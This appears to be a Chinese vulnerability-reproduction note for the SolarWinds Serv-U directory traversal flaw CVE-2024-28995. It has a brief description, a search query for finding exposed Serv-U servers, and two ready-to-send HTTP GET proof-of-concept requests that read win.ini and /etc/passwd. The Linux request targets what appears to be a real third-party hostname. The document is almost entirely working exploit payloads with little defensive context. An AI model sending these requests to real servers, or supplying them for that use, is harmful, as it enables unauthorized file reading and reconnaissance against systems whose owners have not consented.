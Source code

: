# SolarWinds Serv-U 目录遍历漏洞(CVE-2024-28995)

### 1.漏洞描述

Serv-U 的目录遍历漏洞（CVE-2024-28995）是由于在处理路径时缺乏适当的验证。攻击者可以通过传递包含 “…/” 的路径段绕过路径验证，访问任意文件。

### 2.搜索语法

```plain
server="Serv-U"
```

### 3.漏洞复现

Windows-poc

```plain
GET /?InternalDir=/../../../../windows&InternalFile=win.ini HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

![image-20240619220903184](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240619220903184.png)

Linux-poc

```plain
GET /?InternalDir=\..\..\..\..\etc&InternalFile=passwd HTTP/1.1
Host: bbs.calgaryimageanalysis.ca
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![image-20240619220933490](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20240619220933490.png)
